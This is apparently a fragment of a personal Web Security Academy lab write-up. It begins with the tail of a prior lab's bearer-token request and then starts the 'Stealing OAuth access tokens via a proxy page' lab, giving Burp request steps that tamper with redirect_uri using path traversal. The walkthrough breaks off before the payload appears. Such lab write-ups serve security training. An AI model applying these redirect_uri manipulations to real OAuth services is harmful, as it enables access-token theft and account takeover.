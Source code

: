 ```bash
Authorization: Bearer lgUirMedjsTACCZD0yDpmTGdUGfpqzkBNruKSnGcqpm

Send

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611232405.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611230128.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611231923.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611231509.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220611233851.png)

### Stealing OAuth access tokens via a proxy page
```bash

# This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

# To solve the lab, identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

# The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

# You can log in via your own social media account using the following credentials: wiener:peter. 

Go to: "My account"
Login as: 

wiener:peter

Re-log
Go to: HTTP history
Find:

GET /auth?client_id=bk91tnjnh5l2a8f6qbk27&redirect_uri=https://ac0a1fb51fea71bec022b90800bd007b.web-security-academy.net/oauth-callback/../&response_type=token&nonce=1615567977&scope=openid%20profile%20email HTTP/1.1

Send to repeater
Change to:

GET /auth?client_id=bk91tnjnh5l2a8f6qbk27&redirect_uri=rip/oauth-callback&response_type=token&nonce=1615567977&scope=openid%20profile%20email HTTP/1.1

Response:

HTTP/1.1 400 Bad Request

Change to:

GET /auth?client_id=bk91tnjnh5l2a8f6qbk27&redirect_uri=https://ac0a1fb51fea71bec022b90800bd007b.web-security-academy.net/oauth-callback/../&response_type=token&nonce=1615567977&scope=openid%20profile%20email HTTP/1.1

Response:
```